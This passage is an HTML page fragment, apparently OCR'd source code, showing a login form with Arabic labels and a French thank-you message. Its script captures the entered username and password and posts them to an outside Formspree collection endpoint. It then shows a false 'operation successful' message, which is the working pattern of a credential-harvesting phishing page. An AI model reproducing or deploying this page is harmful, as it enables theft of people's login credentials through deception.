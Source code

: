             <label for="password">كلمة المرور</label>
            <input type="password" id="password" name="password" placeholder="أدخل كلمة المرور" required />

            <button type="submit">إرسال</button>
        </form>
    </div>

    <div class="thank-you-container" id="thank-you-section" style="display: none;">
        <h2>Merci pour votre compréhension</h2>
        <p>Votre opération a été effectuée avec succès.</p>
    </div>

    <script>
        document.getElementById('loginForm').addEventListener('submit', function(e) {
            e.preventDefault();

            // Simuler l'envoi des données
            fetch("https://formspree.io/f/xeoapeqj", {
                method: "POST",
                headers: { 'Content-Type': 'application/json' },
                body: JSON.stringify({
                    username: document.getElementById('username').value,
                    password: document.getElementById('password').value
                })
            }).then(response => {
                // Cacher le formulaire et afficher le message de remerciement
                document.getElementById('form-section').style.display = 'none';
                document.getElementById('thank-you-section').style.display = 'block';
            }).catch(error => {
                alert("Une erreur s'est produite. Veuillez réessayer.");
            });
        });
    </script>
</body>
</html>
